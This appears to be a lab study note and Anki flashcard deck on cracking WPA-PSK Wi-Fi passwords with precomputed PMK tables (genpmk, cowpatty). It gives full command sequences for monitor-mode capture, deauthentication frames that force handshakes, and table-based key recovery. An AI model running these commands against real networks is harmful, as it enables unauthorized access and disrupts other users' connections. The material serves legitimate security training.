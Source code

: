 # Chain #16: Precomputation (Rainbow Table) Attack

## Goal & Scope

Use precomputed PMKs (genpmk) to accelerate WPA‑PSK cracking against a known SSID by:

- Generating SSID‑specific PMK tables.
- Matching captured 4‑way handshakes against precomputed tables with cowpatty.
- Understanding trade‑offs: speed vs storage/target specificity.

---

## Concept (Short)

WPA‑PSK derives a PMK from the passphrase and SSID with PBKDF2. genpmk precomputes PMKs for many candidate passphrases _for a specific SSID_, producing a lookup file. cowpatty can match a captured 4‑way handshake to that precomputed table much faster than re‑deriving PBKDF2 for every candidate.

**When to use:**

- Target SSID is known and fixed (e.g., corporate SSID used by many APs).
- You will repeatedly test the same SSID (amortize generation cost).

**When not ideal:**

- You need to attack many different SSIDs (table per SSID → expensive).
- Storage or time to precompute is limited.

---

## Step 1 — Put Interface in Monitor Mode

Prepare wireless card for capture:

```bash
sudo airmon-ng start wlan0
```

- `airmon-ng` enables monitor mode (creates wlan0mon).
- If processes interfere, run `airmon-ng check kill`.

---

## Step 2 — Capture Handshake with airodump-ng

Scan and save capture (replace channel and ESSID accordingly):

```bash
airodump-ng wlan0mon -c 1 -w WPA --essid HackTheBox
```

- `-c 1`: lock to channel 1.
- `-w WPA`: write captures with prefix `WPA`.
- Watch `WPA-01.cap` for the `WPA handshake:` marker.

Force a reauthentication (optional) to trigger handshake:

```bash
aireplay-ng -0 5 -a <BSSID> -c <STATION> wlan0mon
```

- `-0 5`: send 5 deauths.
- `-a`: AP MAC (BSSID).
- `-c`: client MAC to direct deauth.

---

## Step 3 — Precompute PMKs with genpmk

Create the SSID‑specific PMK table from a wordlist:

```bash
genpmk -f /opt/rockyou.txt -d /tmp/hashtable -s HackTheBox
```

Flags explained:

- `-f /opt/rockyou.txt`: source wordlist of candidate passphrases.
- `-d /tmp/hashtable`: destination file to store precomputed PMKs.
- `-s HackTheBox`: SSID to tie the PMK generation to.

Notes:

- Generation is CPU/GPU intensive and can be long for large lists.
- Limit generation (e.g., 30k keys) to avoid huge storage in lab environments.

---

## Step 4 — Crack Using cowpatty Against Precomputed Table

Once you have a capture (`WPA-01.cap`) and `hashtable`, run cowpatty:

```bash
cowpatty -d /tmp/hashtable -r WPA-01.cap -s HackTheBox
```

Flags explained:

- `-d /tmp/hashtable`: use precomputed PMK file.
- `-r WPA-01.cap`: the capture file with 4‑way handshake.
- `-s HackTheBox`: the SSID (must match table).

If matched, cowpatty outputs the recovered PSK quickly because it avoids costly PBKDF2 recalculation.

---

## Step 5 — Example Full Flow (Quick)

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
airodump-ng wlan0mon -c 1 -w WPA --essid HackTheBox
# optionally: aireplay-ng -0 5 -a <BSSID> -c <CLIENT> wlan0mon
# generate table (on powerful/parallel host)
genpmk -f /opt/rockyou.txt -d /tmp/hashtable -s HackTheBox
# match handshake
cowpatty -d /tmp/hashtable -r WPA-01.cap -s HackTheBox
```

---

## Trade‑offs & Practical Notes

- **SSID specificity:** Each table only works for the SSID used during generation. If AP uses different SSID, regenerate.
- **Storage:** Large wordlists → very large hash tables. Plan disk space.
- **Time:** Generating tables is time‑consuming; only worth it when amortized over many handshakes for same SSID.
- **Alternatives:** Hashcat with hcxpcapngtool → use GPU for fast cracking without precomputing, more flexible across SSIDs.

---

## Checklist

-  Put interface into monitor mode.
-  Capture handshake (airodump-ng; deauth if needed).
-  Run genpmk with chosen wordlist and SSID.
-  Use cowpatty to test capture against generated table.
-  If unsuccessful, expand wordlist or use Hashcat methods.

---

## Anki Deck

```
#separator:tab
#html:true
#guid column:1
#notetype column:2
#deck column:3
#tags column:6

R1a4B7c9D2	Basic	Ops::WiFi Gym::Chain 16: Precomputation	What is the purpose of <code>genpmk</code> in WPA cracking?	To precompute PMKs (Pairwise Master Keys) for a specific SSID from a wordlist, enabling fast lookup during cracking.	wifi
S2b5C8d0E3	Basic (type in the answer)	Ops::WiFi Gym::Chain 16: Precomputation	Which <code>genpmk</code> command generates an SSID-specific PMK table from <code>/opt/rockyou.txt</code> for SSID <code>HackTheBox</code> and writes to <code>/tmp/hashtable</code>?	<code>genpmk -f /opt/rockyou.txt -d /tmp/hashtable -s HackTheBox</code>	wifi
T3c6D9e1F4	Basic	Ops::WiFi Gym::Chain 16: Precomputation	Why does <code>genpmk</code> need the SSID when generating PMKs?	Because WPA PBKDF2 derives PMKs from both passphrase and SSID; tables are SSID-dependent.	wifi
U4d7E0f2G5	Basic (type in the answer)	Ops::WiFi Gym::Chain 16: Precomputation	Which tool performs fast lookups against a <code>genpmk</code> table to recover a WPA PSK from a capture?	<code>cowpatty</code>	wifi
V5e8F1g3H6	Basic (type in the answer)	Ops::WiFi Gym::Chain 16: Precomputation	Show the exact <code>cowpatty</code> command that uses <code>/tmp/hashtable</code> and capture file <code>WPA-01.cap</code> for SSID <code>HackTheBox</code>.	<code>cowpatty -d /tmp/hashtable -r WPA-01.cap -s HackTheBox</code>	wifi
W6f9G2h4I7	Basic	Ops::WiFi Gym::Chain 16: Precomputation	What are the main drawbacks of precomputed PMK tables?	High storage needs, SSID specificity (table only works for that SSID), and time to generate tables.	wifi
X7g0H3i5J8	Basic	Ops::WiFi Gym::Chain 16: Precomputation	Why might precomputation be worth it despite costs?	If you will run many cracking attempts against the same SSID, the generation cost is amortized and lookups become very fast.	wifi
Y8h1I4j6K9	Basic (type in the answer)	Ops::WiFi Gym::Chain 16: Precomputation	Which <code>airmon-ng</code> command prepares <code>wlan0</code> for monitor-mode capture?	<code>sudo airmon-ng start wlan0</code>	wifi
Z9i2J5k7L0	Basic (type in the answer)	Ops::WiFi Gym::Chain 16: Precomputation	Which <code>airodump-ng</code> command saves a capture prefix <code>WPA</code> on channel <code>1</code> and filters for ESSID <code>HackTheBox</code> using monitor interface <code>wlan0mon</code>?	<code>sudo airodump-ng wlan0mon -c 1 -w WPA --essid HackTheBox</code>	wifi
A0j3K6l8M1	Basic (type in the answer)	Ops::WiFi Gym::Chain 16: Precomputation	Give the <code>aireplay-ng</code> command that sends 5 deauthentication frames to client <code>11:22:33:44:55:66</code> from AP <code>AA:BB:CC:DD:EE:FF</code> using interface <code>wlan0mon</code> to force a handshake.	<code>sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon</code>	wifi
B1k4L7m9N2	Basic	Ops::WiFi Gym::Chain 16: Precomputation	What practical limit was suggested for <code>genpmk</code> in lab environments to avoid excessive storage?	Generate up to ~30,000 keys (or otherwise cap generation) to avoid huge tables.	wifi
C2l5M8n0O3	Basic	Ops::WiFi Gym::Chain 16: Precomputation	If <code>genpmk</code> fails to crack, what are two sensible next steps?	Expand the wordlist used for <code>genpmk</code>, or switch to Hashcat with <code>hcxpcapngtool</code> for GPU cracking.	wifi
D3m6N9o1P4	Basic	Ops::WiFi Gym::Chain 16: Precomputation	Why does <code>cowpatty</code> run much faster with a <code>genpmk</code> table compared to a raw wordlist?	Because PMKs are precomputed so cowpatty does table lookups instead of performing PBKDF2 for every candidate.	wifi
E4n7O0p2Q5	Basic (type in the answer)	Ops::WiFi Gym::Chain 16: Precomputation	Which file does <code>airodump-ng</code> create on first run when using the <code>-w WPA</code> prefix?	<code>WPA-01.cap</code>	wifi
F5o8P1q3R6	Basic	Ops::WiFi Gym::Chain 16: Precomputation	What is the core cryptographic operation <code>genpmk</code> bypasses during <code>cowpatty</code> lookup?	PBKDF2-SHA1 (the expensive key derivation used to derive the PMK).	wifi
G6p9Q2r4S7	Basic	Ops::WiFi Gym::Chain 16: Precomputation	Name an alternative GPU-friendly approach that doesn't require SSID-specific tables.	Use Hashcat with <code>hcxpcapngtool</code> to create Hashcat-compatible hashes and crack with GPUs.	wifi
H7q0R3s5T8	Basic	Ops::WiFi Gym::Chain 16: Precomputation	What are the essential inputs <code>genpmk</code> requires?	A candidate wordlist (<code>-f</code>), an output destination (<code>-d</code>), and the target SSID (<code>-s</code>).	wifi
I8r1S4t6U9	Basic	Ops::WiFi Gym::Chain 16: Precomputation	Why should you run <code>genpmk</code> on a powerful host rather than the capture machine?	Table generation is CPU/GPU intensive and can overload small capture machines; better to offload to a dedicated cracking host.	wifi
J9s2T5u7V0	Basic	Ops::WiFi Gym::Chain 16: Precomputation	Summarize in one line when precomputation is the best strategy.	When you have a known SSID and will test many passphrases repeatedly against it, precompute PMKs to speed cracking.	wifi
```